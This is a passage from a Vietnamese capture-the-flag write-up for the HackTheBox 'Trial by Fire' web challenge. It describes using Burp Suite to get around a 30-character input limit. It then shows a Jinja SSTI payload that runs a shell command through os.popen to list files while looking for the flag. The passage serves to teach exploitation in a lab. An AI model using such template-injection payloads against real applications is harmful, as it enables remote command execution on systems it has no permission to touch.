 ![trialbyfirehint2](/assets/images/HTB-Apocalypse/Web/web_trial_by_fire/trialbyfirehint2.png)

Vậy là ta có thể khai thác SSTI

Mình sẽ dùng đến [BurpSuite](https://portswigger.net/burp) để bypass qua phần kiểm tra tối đa đầu vào chỉ có <= 30 ký tự vì

```html
<input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
```

Đầu tiên chúng ta sẽ thử gửi 1 payload xem thư mục hiện tại có `flag.txt` không
{% raw %}
```jinja
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
{% endraw %}
Mình sẽ hướng đẫn từng bước một:
1. Đầu tiên chèn payload vào ô form (mặc kệ dù có bị mất chữ hay không)
2. Bật `Intercept` của `BurpSuite`, rồi quay lại web ấn `Challenge the Fire Drake`
